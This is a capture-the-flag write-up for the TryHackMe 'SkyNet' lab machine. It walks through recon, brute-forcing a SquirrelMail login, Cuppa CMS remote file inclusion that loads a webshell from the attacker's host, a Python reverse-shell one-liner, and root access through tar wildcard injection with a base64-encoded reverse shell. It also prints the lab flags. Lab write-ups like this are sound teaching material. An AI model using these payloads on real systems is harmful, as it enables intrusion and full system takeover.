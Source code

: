 # SkyNet

## Recon

nmap revealed:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-29 03:49 UTC
Nmap scan report for ip-10-10-20-144.eu-west-1.compute.internal (10.10.20.144)
Host is up (0.00057s latency).
Not shown: 65529 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
MAC Address: 02:33:4B:B9:0C:CE (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.88 seconds
```

So, a website, a mail server and samba shares.

`dirb` on the website revealed a mail application, SquirrelMail, under `/squirrelmail`. The login page looked simple enough, but I needed a username and password.

`enum4linux` on the smb share revealed a username `milesdyson` and two shares: `/anonymous` and a restricted `/milesdyson`

## Hydra

Initially I tried `hydra`'ing the squirrel login using `milesdyson` and `rockyou.txt`. While that was running, I connected to the anonymous share and poked about. Apart from a huge and funny collection of machine learning books, there was a note saying all passwords had been reset, and three log files, of which only the first (`log1.txt`) had any content.

The log file contained a list of permutations on the word 'terminator'. On a whim, since `rockyou` wasn't getting me anywhere, I tried using the log file as a password source instead. The first entry `cyborg007haloterminator` worked :)

## Mail server, authed smb and hidden CMS

After logging in to squirrelmail, I found an email that contained a new SMB password:

```
Subject:   	Samba Password reset
From:   	skynet@skynet
Date:   	Tue, September 17, 2019 10:10 pm
Priority:   	Normal
Options:   	View Full Header |  View Printable Version  | Download this as a file

We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

I promptly used this with `smbclient -U milesdyson` to access the restricted share. In there, a level or two deep and buried in a huge set of markdown files I found a text file called important.txt

Inside this was a list of tasks:

```

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

I browsed to that path and found a hidden page on the main site. A `dirb` on the page revealed `/45kra24zxs28v3yd/administrator`, which when browsed to, revealed itself as 'Cuppa CMS'

## Remote file inclusion and shell

Cuppa is vulnerable to remote file inclusion, even unauthenticated, as described here on exploit-db: https://www.exploit-db.com/exploits/25971

I tested this with `/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd` and successfully got the contents of the local `passwd` file, all to the good. 

Next I quickly grabbed the user flag, guessing it would be as it is on most TryHackMe VMs: /home/milesdyson/user.txt. Success! `7ce5c2109a40f958099283600a9ae807`

The exploit would include anything, even a url, so I downloaded a simple request CMD php shell from github, spun up a `python3 -m http.server`, and then tested command execution: `http://10.10.20.144/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?cmd=whoami&urlConfig=http://10.10.151.47:8000/easy-simple-php-webshell.php` (note the cmd param before the urlConfig). That magic `www-data` showed up.

The next step was to get a reverse shell. I like to use this python one liner, when I find `nc -e` doesn't work:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.151.47",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

To get it working with the exploit, I url-encoded the above using Burp, then I stuck it into the url cmd parameter while I had a netcat listener running. Boom! Into the system.

## cronjobs and admin

First I fixed up the shell with the standard python tty: `python -c "import pty; pty.spawn('/bin/bash')"`. Then I tried `sudo -l` but it required the www-data password. Next step was to browse about and see what I could see.

In `/home/milesdyson` there were a few funny things, including `.bash_history` symlinked to `/dev/null` (a way of obliterating any tracks? Must remember that...). More interesting was a folder owned by root called 'backups'. In there were two files: a `backup.tgz` file, and a `backup.sh`. I smelled a cron job.

Sure enough, `cat /etc/crontab` revealed that root called that backup script every minute. The contents of `backup.sh` was:

```
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

I couldn't append to the file, as I didn't have access to the folder. However, I *did* have access, write access, to `/var/www/html` as `www-data`.

But what could I do? I can't change root's `PATH`, so can't make them run something other than cd or tar. The `tar cf` had to be the key though, and so I looked about online. 

Sure enough, there is unexpected behaviour when using a wildcard with tar. Specifically, if files in the target directory are ALSO valid tar arguments, they get interpreted as such. I picked this up from this newsblog: https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/

Going to `/var/www/html`, I created three files:

```
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh\ shell.sh
```

and then finally:

```
echo cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTUxLjQ3Iiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKTsn | base64 -d > shell.sh
```

This last takes a base 64 encoded python reverse shell one liner (as used before, above) and decodes it into a file.

Setting up a nc reverse listener, within a minute I had the magic pop of a root shell! The final flag was `3f0372db24753accc7179a282cd6a949`